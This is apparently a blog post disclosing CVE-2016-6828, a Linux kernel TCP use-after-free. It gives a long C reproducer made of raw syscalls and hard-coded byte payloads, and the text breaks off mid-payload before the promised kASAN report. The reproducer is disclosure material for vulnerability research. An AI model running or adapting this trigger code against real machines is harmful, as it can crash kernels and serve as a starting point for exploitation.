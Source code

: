 ```yaml
---
layout: post
title:  "[CVE-2016-6828] Linux kernel tcp related read Use After Free"
date:   2016-08-18 11:00:00 +0800
categories: security linux
---
```


## CVE-2016-6828

Apparently this bug is quite ancient, I haven't checked myself but some net devs think it's from around version `2.6.25`.

# oss-sec link
[http://www.openwall.com/lists/oss-security/2016/08/15/1](http://www.openwall.com/lists/oss-security/2016/08/15/1)

# Reproducer + kASAN report

{% highlight c %}
// to build clang derp4.c -o derp4 -static

#include <unistd.h>
#include <sys/syscall.h>
#include <string.h>
#include <stdint.h>
#include <pthread.h>
#include <stdio.h>

#ifndef SYS_mmap
#define SYS_mmap 9
#endif
#ifndef SYS_socket
#define SYS_socket 41
#endif
#ifndef SYS_bind
#define SYS_bind 49
#endif
#ifndef SYS_sendto
#define SYS_sendto 44
#endif
#ifndef SYS_setsockopt
#define SYS_setsockopt 54
#endif
#ifndef SYS_dup
#define SYS_dup 32
#endif
#ifndef SYS_sendmsg
#define SYS_sendmsg 46
#endif
#ifndef SYS_recvfrom
#define SYS_recvfrom 45
#endif
#ifndef SYS_write
#define SYS_write 1
#endif

long r[62];


int main(int argc, char **argv)
{
    while (1) {
        pid_t pid = fork();

        if (pid == 0) {
        r[0] = syscall(SYS_mmap, 0x20000000ul, 0x20000ul, 0x3ul, 0x32ul, 0xfffffffffffffffful, 0x0ul);
        r[1] = syscall(SYS_socket, 0xaul, 0x1ul, 0x0ul, 0, 0, 0);
        memcpy((void*)0x20006000, "\x0a\x00\xab\x12\xc7\x17\x1c\x83\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x05\x4f\xdc\xc0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00", 128);
        r[3] = syscall(SYS_bind, r[1], 0x20006000ul, 0x80ul, 0, 0, 0);
        r[4] = syscall(SYS_mmap, 0x20020000ul, 0x1000ul, 0x3ul, 0x32ul, 0xfffffffffffffffful, 0x0ul);
        memcpy((void*)0x20012f5a, "\x25\xf9\x1b\xd4\xeb\xf5\x39\x3c\xd5\x80\xf6\xf0\xd6\xe1\xff\x65\x30\x97\xac\xaf\x1b\xbc\xc8\xae\xa4\x1e\xab\xd8\x60\x51\xcb\x4b\xed\xae\xaa\x37\xda\x80\xf9\x06\xb8\x6b\xdf\x78\x0f\xd0\x87\xf2\x65\x5f\x5e\x85\xb5\x4d\x6b\x48\xff\xf3\x0d\x46\x1c\xe5\xa4\x48\x38\x78\x18\x71\x9b\x75\xc4\xc9\x77\xf2\xc4\x5f\x88\x8e\xd2\x8d\x97\x26\x56\x4c\x93\x31\xbc\x64\x22\xff\xdc\x68\x01\x74\x43\xea\x84\x6f\x1d\x90\xeb\x98\x6c\xe9\x1c\x3b\x72\xab\xa0\xb5\x5b\xe8\xee\xfb\xf3\x2d\x96\xa0\xd4\x13\x55\xbc\xd4\xe0\x41\xfd\x78\x7e\x90\xf9\x9f\x9c\x57\x32\x47\xf2\xcf\x7f\x4a\x7b\x79\x0a\xdd\xb4\xce\xbd\x0b\x44\x02\x95\x0f\xaf\x50\xff\x87\x90\x09\xaa\x94\x01\x41\x43\x08\x8e\xb1", 165);
        memcpy((void*)0x20020000, "\x0a\x00\xab\x12\x0d\xf5\xba\x69\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\xac\xad\xce\xa0", 28);
        r[7] = syscall(SYS_sendto, r[1], 0x20012f5aul, 0xa5ul, 0x249e4e54fe149d8cul, 0x20020000ul, 0x1cul);
        *(uint32_t*)0x20001fff = (uint32_t)0x2;
        r[9] = syscall(SYS_setsockopt, r[1], 0x1ul, 0x8ul, 0x20001ffful, 0x4ul, 0);
        r[10] = syscall(SYS_dup, r[1], 0, 0, 0, 0, 0);
        *(uint32_t*)0x20018000 = (uint32_t)0x4;
        r[12] = syscall(SYS_setsockopt, r[1], 0x29ul, 0xbul, 0x20018000ul, 0x4ul, 0);
        *(uint64_t*)0x2000dfc8 = (uint64_t)0x2000e000;
        *(uint32_t*)0x2000dfd0 = (uint32_t)0xc;
        *(uint64_t*)0x2000dfd8 = (uint64_t)0x20000000;
        *(uint64_t*)0x2000dfe0 = (uint64_t)0x1;
        *(uint64_t*)0x2000dfe8 = (uint64_t)0x0;
        *(uint64_t*)0x2000dff0 = (uint64_t)0x0;
        *(uint32_t*)0x2000dff8 = (uint32_t)0x4;
        *(uint16_t*)0x2000e000 = (uint16_t)0x0;
        *(uint16_t*)0x2000e002 = (uint16_t)0x0;
        *(uint32_t*)0x2000e004 = (uint32_t)0xffff;
        *(uint32_t*)0x2000e008 = (uint32_t)0x401;
        *(uint64_t*)0x20000000 = (uint64_t)0x2000ed3a;
        *(uint64_t*)0x20000008 = (uint64_t)0x37;
        *(uint32_t*)0x2000ed3a = (uint32_t)0x14;
        *(uint16_t*)0x2000ed3e = (uint16_t)0x2;
        *(uint16_t*)0x2000ed40 = (uint16_t)0x12;
        *(uint32_t*)0x2000ed42 = (uint32_t)0x1f;
        *(uint32_t*)0x2000ed46 = (uint32_t)0x7;
        *(uint8_t*)0x2000ed4a = (uint8_t)0x6;
        *(uint8_t*)0x2000ed4b = (uint8_t)0x100;
        *(uint8_t*)0x2000ed4c = (uint8_t)0x3f;
        *(uint32_t*)0x2000ed4d = (uint32_t)0x11;
        *(uint16_t*)0x2000ed51 = (uint16_t)0x0;
        *(uint16_t*)0x2000ed53 = (uint16_t)0x808;
        *(uint32_t*)0x2000ed55 = (uint32_t)0x1;
        *(uint32_t*)0x2000ed59 = (uint32_t)0x0;
        *(uint8_t*)0x2000ed5d = (uint8_t)0x0;
        *(uint32_t*)0x2000ed5e = (uint32_t)0x12;
        *(uint16_t*)0x2000ed62 = (uint16_t)0x2ea;
        *(uint16_t*)0x2000ed64 = (uint16_t)0x200;
        *(uint32_t*)0x2000ed66 = (uint32_t)0x5;
        *(uint32_t*)0x2000ed6a = (uint32_t)0xffffffffffffffff;
        *(uint8_t*)0x2000ed6e = (uint8_t)0x9;
        *(uint8_t*)0x2000ed6f = (uint8_t)0x1;
        r[47] = syscall(SYS_sendmsg, r[10], 0x2000dfc8ul, 0x801ul, 0, 0, 0);
        *(uint16_t*)0x20001003 = (uint16_t)0x1;
        *(uint8_t*)0x20001005 = (uint8_t)0x0;
        *(uint32_t*)0x20001007 = (uint32_t)0x9;
        r[51] = syscall(SYS_recvfrom, r[10], 0x20014a91ul, 0xdeul, 0x0ul, 0x20000ffbul, 0x8ul);
        memcpy((void*)0x20015285, "\xed\xe0\xf1\x03\xbd\x1d\xe2\x8d\x13\x62\xc9\x11\xde\x3b\x55\xb1\xb2\x26\x95\xb2\x3f\x32\x96\x8a\x3d\xf7\xd4\x2c\xd9\x32\xae\x05\x9a\x60\x09\xbc\x49\x63\x6a\x45\xd5\x6f\xa8\x4b\xaf\x8a\x66\xf3\x35\xad\xe6\x68\x85\xd4\x7e\xe5\x7c\x7e\x06\xbf\x32\xfb\xf9\xd2\x9f\x40\xa3\x0a\xa0\x93\x09\x73\x39\x7d\xac\x3c\x8d\x83\xe0\x0c\x5e\xa2\x36\x9b\x9c\xb4\x62\xe8\x39\x07\xd8\x71\xc1\x2f\x6f\x18\xfa\x8a\x5d\x06\xb4\x46\xa2\x97\x79\x81\xb2\x85\xd4\x4f\x6b\x48\xc4\xf5\xdd\xa8\x8d\x10\x74\x01\xe1\x58\xb2\x82\x72\xc4\xb6\xb2\xf7\xaa\x90\x9c\x9f\x61\x95\x87\x7b\x99\xc5\xa5\x53\xbc\xab\xdb\xdb\x5e\x32\xb8\xc3\xee\xd3\xda\x7a\xf2\x5c\xc5\x1a\xf1\xd6\x1b\x53\xad\x24\xd0\xa0\xc0\x0d\x73\x9e\x81\x7e\x4e\x82\xf5\xa9\x73\x3c\x7a\x5c\x6e\x4c\x48\x7d\x42\xf5\x2f\x68\xf9\x7e\xa9\xd8\x6a\x64\x78\x08\x7a\x37\xe9\xd3\x81\x15\x34\x63\x63\x14\xb7\x1a\x43\x9b\x4f\x85\xfa\x88\x5c\xe1\x1e\xce\x87\x95\xe1\x81\xc8\x06\xaf\x1a\x64\x26\x36\x83\x36\xef\x71\x0c\x2a\xda\xe4\xff\xa1\x87\xc2\x04\x96\x1c\x72\xd9\x2d\xf0\xce\x46\xd4\x3a\xd1\xc7\x2f\x60\x25\xf8\x33\x1f\x38\x7a\x46\xb1\x43\xa4\xd2\x65\x77\x47\x85\xe9\xad\x52\xdb\x8b\x93\x23\xf1\xf9\xa9\x5f\xe4\xf8\x39\x82\xc5\xb4\xe1\x5b\x87\xa0\xfd\x2c\xc2\x84\x15\x78\xaa\x9b\x3f\xe5\x75\x6e\x05\xef\x84\x4c\x6b\x9d\x1d\x9e\x7c\x92\x3b\x55\xcb\x01\x6f\xc5\x9a\xd8\xc3\x91\x39\x95\xd7\x8f\xe9\x87\x15\x27\xe7\x19\xa8\x18\x24\xfd\x09\x11\x49\x41\xc6\xd2\xe9\x1a\xf4\xb0\x9b\x85\x9b\x3f\xb1\xf3\xc3\x48\xc5\xe7\x45\x0b\x21\x2d\x32\x27\x92\x3c\x39\x52\x0f\x2b\xdf\x52\x66\x6f\x01\x8f\xdc\xfa\x8f\x5e\x53\xb7\x82\x23\x79\xfa\x28\xe5\x24\xa7\x5e\x2a\x24\x7e\xd0\x1e\xd5\x1a\xb6\xb8\xe5\xb2\x6d\x4d\x38\x61\x79\xb8\xd1\x27\x92\x63\x0c\xed\x3c\xf1\x13\x98\x37\xfa\x98\xda\x0c\x1a\x86\xd1\x6a\x12\x86\x2f\xd0\x8d\x8e\x2e\x52\x23\xac\x2d\x82\x59\xef\x17\xbc\xf1\x47\xfb\xf0\x5f\x43\x70\x99\x14\xdf\xaf\x44\x02\xb5\xe9\x39\x51\x8e\xf2\x07\x9c\xa2\x39\xab\x07\xa2\x22\xa7\xd3\x5c\xc0\x8c\xcf\x3c\xa2\xa7\xd0\xd6\xf4\x82\xcc\x35\x75\x3a\x20\xb7\x9b\xf3\x9d\xd9\xfe\xdf\x1e\x3f\x55\xf2\x99\xdb\xd0\xb2\xd7\x86\xc1\xfa\xb3\xc7\x99\xdc\x02\xe3\x9f\xfd\x1e\x56\xc1\xf2\x51\x32\x84\x61\x30\x33\xf6\xe3\x82\x9f\xf2\x04\xaf\x5d\xf4\x3d\xa6\x0e\x25\x53\xe9\x05\x7c\x42\xbf\xfa\x97\xd7\x77\x8c\x8f\x29\x7a\xcb\x40\x13\x07\xb5\x8d\x69\xdc\x8b\x35\xd3\xb6\xf3\xd8\x07\x94\x7e\x69\x0f\xb7\x28\xf1\xb3\x45\x60\x37\x65\xa4\xf6\xbf\x9c\xb3\xf9\x3d\xe1\x08\x08\xc9\x76\x5e\x8b\x7f\x26\x01\x9d\x8f\x15\x39\x02\xfe\x8a\xe3\x3b\x8b\xf9\xae\x06\x04\xef\x0d\xcf\x67\x24\x54\xe6\x4c\xe4\x05\x8e\xd7\xda\x4c\xf2\xd7\x88\x75\x87\xf7\x7e\xd0\x49\x19\x02\x5e\x00\xc4\xeb\x3e\xec\x70\x35\x9c\x9b\xc9\xd9\x47\x65\x4c\xa3\xdb\x0e\xde\x1e\x76\x58\x27\xe0\x91\x6b\xf9\x25\x44\xa6\xa2\x85\x8f\x50\xd0\x13\x88\x57\x25\x56\x78\xed\xcb\x6b\xec\xf2\x4f\xd4\xce\xf1\x90\xcd\x49\x50\xb5\xcf\xd3\x96\x4d\x3c\xf4\x54\x8e\xa9\xdb\xd3\xb5\x9e\xe9\x87\x19\x8b\x59\xd7\xf2\xcf\x1a\xd3\x70\xca\x42\xc6\x97\x66\x38\x24\x39\x4d\x42\xa1\xf0\x24\x46\xe4\x0e\x9c\xbc\xc4\x53\xa9\xb9\x94\x4d\xca\x48\xa6\x04\xb8\x2f\x4f\xf5\x85\x32\x22\xf8\x4e\x83\xab\x34\x27\x3b\x8f\x24\x48\x15\x9b\xa9\xf8\xb9\xb7\xcb\xd5\xfb\x72\xec\x7a\xc3\x39\x9c\xde\x25\x76\x08\x3f\x49\x35\xbd\x42\x4f\x3f\x5e\xfc\x6b\x6b\x9e\x3e\x34\x47\x62\xed\x5a\xae\xdc\xcf\x4e\xe6\x18\xfa\x7f\xe6\x46\xc8\xbe\xbc\x42\x88\xb6\xfe\xbd\x96\x85\x5a\x4a\x1d\xd2\x00\xe9\x71\x48\x48\x52\xd6\xf5\x88\x7d\x94\x18\xf6\xf0\x5c\x0a\x39\x29\xc8\x78\xa0\xa8\x44\xf4\xb6\xca\x78\x75\x4a\xf7\x53\xd7\x7e\x23\xaf\x6b\xf9\xcd\x77\xb2\xd0\x37\x29\x9c\x57\xbe\x9e\x5f\x7c\xe4\x41\x59\xde\xd5\x63\x02\x2a\xc0\x74\xa6\x00\xe2\x8f\x83\x30\xc1\x60\xcd\xb3\xca\x44\x1d\x88\x54\x8b\xbc\xa8\x79\x78\x86\xa2\x49\x7c\x94\x49\xf3\xb4\x41\x44\x76\x33\xf1\x2e\x71\xbc\xa1\x39\xb9\x68\x56\xd9\xa0\xa1\x6f\xdc\x7d\xa3\xb8\x4f\x1c\xb8\x19\x26\x42\x88\x0e\xcb\xbb\xc9\x6c\xa8\xf8\xe9\x37\x86\x61\x37\x9f\xba\xb3\x9e\x54\x07\xe6\xff\x6f\x54\x8c\xcf\x7e\x3d\x14\xfd\x94\xbb\xdc\x59\x5d\x22\x86\xb5\x3b\x18\x0d\x08\xad\x15\x67\x6b\xf1\xc8\xd8\x81\xac\x14\x63\xcf\x1e\xf9\x48\xba\xe0\x33\x4c\x1e\x72\xe9\x00\x1a\x48\xc5\xb4\x2c\x71\xd6\x7a\x0b\x8f\x6c\x02\x9a\x02\xa9\x20\xbd\x8a\x56\xe1\x59\x92\x1f\x5f\xea\x61\x1b\xe3\x2f\xc0\x15\x9c\x3e\xcf\xe7\x05\xbc\x7e\xe8\x88\x58\x63\x29\xc5\x10\x26\xf0\xbc\xf5\xcd\x3d\x33\xfa\x87\x45\x25\x1d\x86\xc0\xd8\x72\xdc\x1b\xaf\xa1\xf3\x1e\x81\xb4\x7b\x4d\xb5\x79\x72\x87\x92\x1f\x9d\xa1\x8e\x1a\x24\x7f\x49\x11\xc4\x59\xa5\x8e\x6c\x7a\xdd\x17\x52\x47\x3b\x09\x28\xe4\x3b\xef\xb0\xf3\x68\x9c\xd3\x6e\xe9\x89\x38\xdb\xeb\x01\x4f\x39\x9b\x5b\x0c\x8d\x92\xcd\x5c\x15\x47\x15\xa9\x98\x70\x75\xe2\xf0\x5b\xfe\xaa\xa9\xb3\xba\xc9\x8e\x5c\x6d\xfb\x53\xb9\x8b\x4f\x7e\x31\xbe\x69\x7e\x6d\x80\x6f\x3e\xd8\x59\x1c\x13\x5a\x3b\x2b\x0e\xc6\xd1\xf9\xaa\xf1\x30\x16\xf1\x7b\x2f\x6b\x5f\xa9\xde\xfa\xfd\x59\xaa\xdd\x32\xf7\xbb\x94\x28\x93\x16\xb3\x60\xd5\x6c\x62\x93\xba\xa9\xaa\x38\x52\xdc\x2f\x37\x75\x1d\x56\xa9\x3c\x7c\x8b\x0d\x56\x9e\x05\xf7\xa1\xa6\xef\x3c\x76\x6e\x06\x06\xde\x07\x84\xa0\xeb\xeb\x8e\x46\x2f\xd9\xc2\x56\xc6\x89\x85\x8c\x39\xad\xa2\x77\x24\xe5\xb5\x00\x04\x4c\xf5\x1e\x4a\x03\x06\xbb\xa1\x1f\xe7\xf8\xb7\x3e\xdd\xfc\x18\xbf\x13\x07\x14\xdd\x8a\x6b\x0f\x44\xc0\xeb\x4a\x43\x7d\x42\xe9\x02\x63\xb5\xc2\x7a\x87\xce\x14\x0c\xaf\xd9\x2b\xaf\x4b\x22\xec\xa9\x3b\x16\xeb\xb7\xc5\x0d\x51\x91\x93\x5d\x90\xe1\x8f\x34\x86\x71\xe0\x7c\xb5\x1e\xe7\x19\xc0\xd6\xc9\x3e\x08\x75\xc0\x1f\xab\x5e\x41\xbf\x0e\x1a\x14\xcc\x40\xf6\x85\x02\xba\x3d\x78\xce\xf7\x6f\x0e\xbf\x51\xda\xc6\xa1\x59\xbd\x69\x1a\x05\x7b\x34\xbd\xa7\x28\x39\xa1\xa2\x18\xa7\x76\x8f\x51\xa5\xd2\xdc\xf4\xa7\x7b\xc8\x64\x0e\xc0\xe8\xac\xc3\xd4\xb9\x11\x78\x58\x79\xe4\x91\xc9\xcf\xe2\x0c\xbb\x11\xb3\x80\x48\xd7\xa5\xbd\x45\xdd\xb6\xad\x87\x79\x01\xa0\xe1\x89\xdb\x54\x42\x1c\x78\x47\x91\x07\xe8\xbc\x26\x15\xf2\xdb\xba\x5b\xaa\x5a\x05\x84\xa2\x83\x7d\xe5\xbb\x5a\x77\x3f\x0a\x27\x06\x4e\x86\x69\x95\x27\x22\x7e\xa2\x42\x4d\x61\xa7\xab\x6d\x05\x8b\x7b\x6b\x94\xd6\x10\x40\x66\x30\x0b\x6c\x79\xe1\x62\xee\x33\xed\xd6\xd4\x9a\x3a\xea\x95\x5b\x60\x70\x58\xc9\xc6\x6c\x47\xa7\xd1\xcc\xfa\x9f\xc7\x66\xac\xbb\x4f\xe4\x09\x74\xe3\xd1\xeb\x82\x3b\xce\x4c\x2b\xcf\x08\xcd\xf6\x96\x2b\x65\x2a\x2c\x33\xf5\x7b\x66\xdb\xec\x3d\xbf\x24\xf7\xf9\x87\x99\x26\x1b\x5a\xa0\xd0\x0e\x2f\xc0\x2e\x03\xcd\xf4\x1e\x10\x7c\xb5\xb7\xec\x75\x2c\x20\x89\xc4\xec\x61\x34\x3b\x6c\x68\x14\x95\xd9\x9a\x03\xd7\xf2\x6b\xe6\x50\x14\x80\x72\xa2\x67\xaf\xb3\x19\x12\xcc\xf9\x9d\x3d\x34\x86\x48\xe7\xa6\xe7\xc0\x9b\x6c\xeb\x2c\x0d\x26\x6f\x09\xd9\x8c\x92\x8e\xde\x80\x04\x14\xe6\x88\xbb\x39\x2f\x2c\x14\xf2\xda\x86\xdb\x10\x59\x54\x83\xe6\x5e\xe3\x14\x4b\x73\x97\x9a\x94\xa8\x09\x44\x1d\xd0\x62\x2d\x43\xb4\x5e\x38\xaa\x8e\x5b\xdd\x2f\xd3\x2c\x8e\xd3\xd0\x0f\x9d\x80\xca\x87\x4e\xab\x52\x01\x29\xb7\xe7\x55\xa2\xe4\x2d\xee\xce\x30\xe9\xcb\xc4\x3e\xf9\x58\x04\x63\x01\xec\x89\x33\x01\x26\x7d\xe2\x5d\x41\xf7\x91\xa3\xcb\x41\x62\xb4\x82\x6d\xb9\xd1\xad\xf2\x96\x0f\xad\x87\xbe\x6d\x95\xaf\xc2\x14\x12\x78\x10\x90\x86\x61\x55\x97\x77\x5c\x19\xfe\x4e\xda\xf3\x74\x08\x83\x4d\xa0\x25\x04\x05\x4b\xf3\x30\xc1\x2f\xb6\x16\x2d\x9b\x2c\x7d\x90\x5a\xd2\x28\x53\xc5\x3a\x14\x8c\x1f\xda\xd7\x36\x47\xdc\x85\x7f\x2b\xe8\x0d\xf9\x03\x92\xba\x82\x20\xde\xb3\x65\x14\xe8\xdd\xfe\x6b\x3a\xab\xd5\xad\x03\xcb\x4f\x41\x08\x97\x22\xe7\xc7\x1d\x0e\x7c\x8e\x4d\x12\x2c\x86\x8b\xb3\x31\x43\x5f\x6e\x37\xcf\x08\x83\x4d\x16\xd7\x3f\x4a\x80\x2b\x67\x1a\xbb\xaf\x8d\x1c\x1c\x5d\x00\x33\xf3\x67\x13\x43\xf1\x09\x00\x81\x68\xe1\x33\xb1\xb4\xc1\xad\xd9\x99\x0c\xac\x4f\x09\x26\xd7\xff\xc8\xcd\xfd\xe9\x32\x52\xd1\x4c\xee\x61\x89\xe0\x82\x64\xa3\x6b\xeb\x23\x87\xc8\xed\x94\xa6\x6b\x68\xec\x13\x59\xa7\x74\x06\x7d\xac\x6f\xfd\xf5\x3d\x3b\x9d\x8b\xe1\x22\x98\xf3\x0e\xbd\x3f\xfa\xbe\xb9\x86\x3d\xe4\x1f\x30\xd4\x96\x6f\x7f\xd4\x48\xbc\xc9\x8b\x1e\x8f\x63\xa1\xb4\xa9\x43\xf2\xb8\x28\x5e\x57\x93\xc5\x56\x21\x12\x20\xd5\x16\x29\x14\xb0\xff\x42\xba\x0e\x26\x6e\xcd\x7e\x7c\x72\x27\xfb\xd2\x0f\xac\xdb\x0d\xc8\xc8\xd6\xa0\xc7\x5b\xfd\x0c\xd7\x89\xe8\x8b\xee\x24\x0f\xd1\x78\x23\x82\xe7\xb5\x7f\x63\xb3\x14\x10\x78\x26\x23\xd3\x60\xbd\x53\x5a\x1b\x67\x0f\xcf\xd5\xfe\x90\x18\xa9\xd6\x80\xc3\x94\x00\x21\x6d\xdb\xab\x09\x38\x0d\x77\xdc\x3e\x90\x2f\x3c\x0e\x06\x6b\xaf\x14\x45\xcc\x0d\xcb\x1b\x74\xdc\x01\xec\x29\x23\x96\xe0\x2a\x86\xee\x92\x9c\x86\x10\x9f\x3d\x7a\x56\xf3\x6f\x3b\xef\x2b\x84\xd5\xcf\xd3\xf7\x2b\xa6\x0d\x9c\xa2\xb0\x42\x8f\xed\x53\x99\x7a\x11\x64\x5e\x53\x92\xb7\x97\x20\xaa\x25\xc2\x5d\x6b\xbd\xde\x58\xe7\x51\xc2\xd5\xa5\xe0\x9b\xbf\xe4\x81\x1c\xd5\xc4\xee\x29\xfa\xd2\xbb\xce\xbf\xfe\x40\xee\x09\xf5\x4b\xb2\x1e\x33\xef\x8f\xf9\x05\x68\x15\x7a\x45\xa0\x52\x3c\x29\xf4\x01\xf2\x64\x98\x2d\xbd\x89\xae\x86\x80\xd9\x0a\xfe\xca\x86\x46\xc3\x58\xd6\x1d\x54\xd4\x6f\x36\xe0\x32\x6a\x23\x29\xbd\x69\x22\x9b\x1e\x7f\x01\x28\xff\xc0\x1c\x8f\x01\x08\xa4\x96\xda\xfe\x96\xab\xf2\x23\x34\x34\xb0\x46\x38\xd6\x2f\x87\x62\xcf\x96\x85\xbb\xcc\x98\x27\xfc\x91\xea\xd9\x78\xc4\xcb\x42\xc0\xd3\x7d\x90\x1c\xfa\x62\xa8\xb7\xf3\x31\x04\x56\xa1\x97\xe1\xa8\xfc\xab\x90\x64\x01\x81\xae\x20\x05\x2f\x91\xaf\x27\xb9\xb5\x12\xce\x94\xa6\x6b\x32\xf2\xd0\x0b\xf5\x71\xff\xbb\xd8\xe1\x20\x5f\x0d\xbe\x90\x44\xe4\xa5\xb5\xf6\xa3\x70\x5b\xd3\x24\xa2\xb6\xba\x22\xd7\x27\x47\xff\xff\x79\x65\xf1\x82\xcf\x51\x56\xa6\x6f\x48\x32\x66\x7b\x3f\x3f\x7c\xb8\x6f\x0f\x2d\xe8\x92\x72\x86\xc4\x9e\x6f\xe7\xb6\x3f\xb6\x6f\x96\xdc\x68\x8d\x1d\x1c\xfe\x3f\x23\x45\x7d\x35\xed\x3d\x6a\x06\xe8\x4b\x7f\xb1\xe6\x2b\x66\x4a\x53\x45\xa4\x5c\x77\x96\x25\x4a\x13\x3a\xf3\xbe\x7e\x16\xb0\x51\x84\x53\xe6\x4e\x37\xd7\xc1\xee\xda\xfb\x18\xb0\x81\x3b\x16\xfc\xea\x32\x00\x75\x97\x1a\xc9\xf9\x5a\x44\x1a\x12\x08\xcb\xbe\x60\x79\x80\x60\xcd\xbd\x5b\x60\x9b\xfc\x31\x5b\xca\xa5\xda\x16\x18\x45\x95\xe1\x5b\xd4\x4c\xdc\xc9\x10\x73\x14\xbb\x0b\x9c\xdb\x0c\x0c\x8c\x3b\x42\x29\xf4\x7d\x93\x61\x5a\x6a\x6b\xac\xae\x80\x60\x5d\xd1\x3e\xe4\x6d\xf7\x3f\xb8\x7b\x7f\x35\x1b\x67\xd3\x60\x80\x0a\x08\x25\xff\xbb\x31\x47\x60\xb3\xd1\x0e\xce\xbc\xf3\x88\xe0\x56\x5e\x61\x97\x63\x82\xa4\xff\xea\xf9\x48\x7f\x4c\x62\x58\x46\x30\xe5\x2c\xbe\xa0\x18\xe4\xe8\xf6\x4f\x22\x5b\x1d\x18\xb0\x48\x0c\xe7\x25\xa9\x1a\x8e\x5a\x3f\xbd\x4c\xab\xe7\x52\x29\xa2\x35\x77\xf5\x0c\x8c\x4e\x2d\xa9\x16\x11\x00\xdf\x8b\xe1\x7f\x8f\x20\x9d\xe9\xea\x2b\x4e\xf4\xe5\x98\x4e\xf8\xe9\x5b\x98\xb9\x2a\xb8\x68\x0d\xdb\x35\xf8\xfd\x5d\x28\x14\x2a\x65\x33\x3d\xde\x77\xc5\x73\xee\xc4\xa4\x8e\x76\x12\x4f\x28\x93\x7d\xd8\xf5\xbf\x32\x39\xe1\xc1\xaa\x46\x71\x9f\xcb\xa4\x93\xa5\xae\xe0\xb1\x9f\x03\xb3\xbe\x86\xf9\x92\x45\x65\x64\x8d\xd9\x49\x09\xd2\x0c\x01\x92\x75\x1a\x29\x43\x34\x74\x21\x6d\xa6\x0e\xa7\x3b\x15\x2c\x59\xc2\xb9\x8a\x92\xcb\xc3\x8c\xc7\x06\xfd\xfc\xe1\x67\xc7\xc5\xc6\x07\x24\xc8\x06\xa7\xdc\x76\x83\x43\xec\x90\x3b\x6f\xa0\x00\x9a\x68\x44\x71\x19\xbe\xdb\x24\xb0\xcb\x9b\x8a\x28\xb6\x30\x99\x79\xd2\x42\xbe\x53\x32\x84\x0c\x17\xdc\xc9\x1c\xa9\xed\x26\x20\x69\xef\x6d\xc4\xa4\xad\xe5\x68\xec\x52\xe8\x51\x3f\xb2\x52\xbc\x6f\x84\x26\x41\xf9\x91\x22\x66\x89\xcc\x03\xa6\xa5\x7a\x07\xd7\x35\x92\x5e\xc1\xf9\x11\x1b\x4b\x6d\x50\x7b\x4f\x43\xca\x13\x37\xd2\x6d\xce\x81\xa8\x9b\x8b\x8c\x65\x75\x08\x97\x18\xb6\xd2\x2e\xd2\xe3\x31\x51\x2e\xb0\xb3\x04\x64\x71\xba\x05\x4b\x23\x91\x92\xfd\x4a\x1b\x6c\x35\xa5\x8f\xcb\xb5\xac\xd9\x40\xe5\x4b\x6b\x04\xe2\x2a\xab\xd9\x0d\xcf\x0b\x23\xfa\x1f\xcd\x4a\x46\xb0\x26\xc4\xb8\xae\x17\x82\x6c\x7f\x6f\xe6\x1a\x8c\x0d\x95\xdf\xe2\xc2\xd4\x5c\x85\x6d\x79\x3b\x8a\x6c\x51\xf3\x5f\x06\xdf\x07\x5b\x69\x8a\xde\x75\x59\x6d\x70\x99\x55\x09\x8f\xf8\xc0\x6f\x2e\xc3\x0f\x87\x1c\x79\xe8\x4b\xb0\x55\x51\xb2\xa3\x91\x9b\xb0\x89\x17\xad\x9b\x89\x81\x23\x12\xcb\x45\x8a\xd7\x2a\x0a\x19\x84\x7d\xb9\x64\xa6\x31\xa3\x48\x30\x3c\x01\x6b\x7c\x74\x20\xe6\x0b\xff\x2a\x0a\x66\x82\x00\x31\x01\xbc\xf8\x47\x02\xcc\x43\xbe\x6d\x0c\x0e\x4f\x59\x37\x4d\xcb\xc2\x37\xee\x5e\x1c\x2c\xf3\xda\xc8\xf8\xc9\x8c\xbc\xff\xd9\x8b\x8a\xee\x4e\xab\x19\x8f\xb6\xb4\xe7\x0a\xda\x9c\x5c\x00\xc3\x26\x87\x63\xb0\xa9\x1